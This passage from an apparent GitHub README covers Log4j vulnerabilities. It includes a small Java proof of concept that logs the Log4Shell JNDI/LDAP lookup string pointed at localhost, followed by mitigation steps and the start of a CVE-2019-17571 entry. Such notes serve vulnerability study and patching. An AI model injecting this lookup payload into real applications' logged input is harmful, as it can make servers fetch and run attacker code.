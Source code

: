 ### exploit

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/a}");
    }
}
```

### mitigation

* Restrict LDAP access via JNDI
* Disable most JNDI protocols
* Log4j 1.x mitigation: Log4j 1.x does not have Lookups so the risk is lower. Applications using Log4j 1.x are only vulnerable to this attack when they use JNDI in their configuration. A separate CVE (CVE-2021-4104) has been filed for this vulnerability. To mitigate: audit your logging configuration to ensure it has no JMSAppender configured. Log4j 1.x configurations without JMSAppender are not impacted by this vulnerability.
* Log4j 2.x mitigation: Implement one of the mitigation techniques below.
* Java 8 (or later) users should upgrade to release 2.16.0.
* Users requiring Java 7 should upgrade to release 2.12.2 when it becomes available (work in progress, expected to be available soon).
* Otherwise, remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
* In previous releases (>2.10) this behavior can be mitigated by setting system property "log4j2.formatMsgNoLookups" to “true”

## CVE-2019-17571

Included in Log4j 1.2 is a SocketServer class that is vulnerable to deserialization of untrusted data which can be exploited to remotely execute arbitrary code when combined with a deserialization gadget when listening to untrusted network traffic for log data. This affects Log4j versions up to 1.2 up to 1.2.17.

### source code version before detection of the vulnerability

1.2 up to 1.2.17

### source code version released after the vulnerability was discovered

2.8.2 or higher

### type of vulnerability
